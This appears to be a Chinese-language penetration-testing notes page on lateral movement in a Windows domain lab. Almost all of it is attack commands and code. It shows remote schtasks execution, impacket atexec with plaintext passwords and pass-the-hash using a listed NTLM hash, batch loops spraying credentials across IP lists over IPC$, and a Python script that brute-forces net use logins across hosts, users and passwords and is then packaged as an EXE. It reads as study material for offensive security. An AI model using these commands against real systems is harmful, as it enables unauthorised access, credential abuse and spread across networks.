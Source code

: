 ```bash
schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除adduser任务

#案例2-横向渗透明文HASH传递atexec-impacket
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe god/administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```

**案例3-横向渗透明文HASH传递批量利用-综合**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测HASH对应IP回显版
```

**案例4-横向渗透明文HASH传递批量利用-升级版**

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典能吃西瓜？
```
net use \\192.168.3.32\ipc$ admin!@#45 /user:god\dbadmin

#pip install pyinstaller
#pyinstaller -Ffuck_neiwang_001.py生成可执行EXE
```
使用该脚本去爆破用户密码
```PY
import os,time
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.29',
'192.168.3.30',
'192.168.3.31',
'192.168.3.33'
}

users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'vpnadm',
'webadmin'
}
passs={
    # 输入抓取的密码hash
'admin',
'admin!@#45',
'Admin12345'
}

for ip in ips:
for user in users:
for mima in passs:
exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
print('--->'+exec+'<---')
os.system(exec)
time.sleep(1)
```
